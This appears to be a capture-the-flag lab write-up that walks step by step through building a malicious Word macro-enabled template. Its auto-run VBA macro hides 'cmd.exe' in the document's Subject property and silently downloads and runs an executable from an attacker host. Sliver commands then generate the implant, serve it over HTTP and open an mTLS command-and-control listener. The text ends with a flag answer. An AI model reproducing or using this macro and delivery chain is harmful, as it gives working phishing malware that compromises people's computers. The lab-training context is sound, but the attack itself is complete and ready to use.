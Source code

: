 ![image](https://user-images.githubusercontent.com/58165365/180001814-23b1daef-f35c-4103-82b3-7490feb2bb54.png)

![image](https://user-images.githubusercontent.com/58165365/180002240-198a89c2-3bf9-4356-bd2b-3e7dccc30933.png)

![image](https://user-images.githubusercontent.com/58165365/180002522-fb5335ad-46ea-4230-96df-ee305aba2e26.png)

**NB:** _You want to create the macros in the current document...So choose the last option and not "All active templates and documents"_

Once thats created, add the following vba code and save:

```vba
Sub AutoOpen()
    chapel
End Sub
Sub chapel()
    Dim strProgramName As String
    Dim strArgument As String
    Set doc = ActiveDocument
    strProgramName = doc.BuiltInDocumentProperties("Subject").Value
    strArgument = "/c curl -s http://<attacker_ip>:8443/oste.exe --output %temp%\oste.exe && %temp%\oste.exe
    Call Shell("""" & strProgramName & """ """ & strArgument & """", vbHideFocus)
End Sub
```

- Save the document as a `.dotm` (Word Macro-Enabled Template) and exit.

- Right click on the document created and view its properties. On the Details tab, under Subject, add `cmd.exe` and hit **Apply** and **Ok**.

![image](https://user-images.githubusercontent.com/58165365/180003751-5312d2a5-cfc4-401f-acb9-3d0483191141.png)

- Spin the sliver server

`sliver-server`

- Generate a malicious executable using the following command:

`generate --mtls <local_ip> --save oste.exe --os Windows`

- Start a python server where you generated the executable.

`python3 -m http.server 8443`

- Back on your C2 server, start an mTLS listener by running:

`mtls`

On my windows lab, open the document and enable macros.

![image](https://user-images.githubusercontent.com/58165365/180004094-93a0b986-b249-4097-af63-eaeb078ebfdb.png)

You should have a session on your windows target.

**Answer:** `Flag{Human,103.255.5.117,notepad.exe}`

## Manual Analysis

